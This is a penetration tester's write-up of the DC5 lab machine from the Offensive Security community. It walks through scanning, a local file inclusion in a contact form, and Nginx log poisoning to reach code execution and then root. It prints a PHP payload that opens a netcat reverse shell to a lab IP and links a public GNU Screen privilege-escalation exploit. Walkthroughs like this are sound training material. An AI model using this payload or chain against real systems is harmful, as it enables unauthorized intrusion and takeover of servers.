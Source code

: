 # DC5 Offensive Security Community Writeup
## Level: Intermediate

![logo](1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](10.png)

#### Result testing Remote Code Execute (RCE)
![](11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

We read the flag of *user.txt*.

#### PoC Log Poisoning + RCE
![](12.png)

#### Result PoC Log Poisoning + RCE
![](13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](14.png)

#### Result reverse shell code
![](15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.
![](16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](17.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
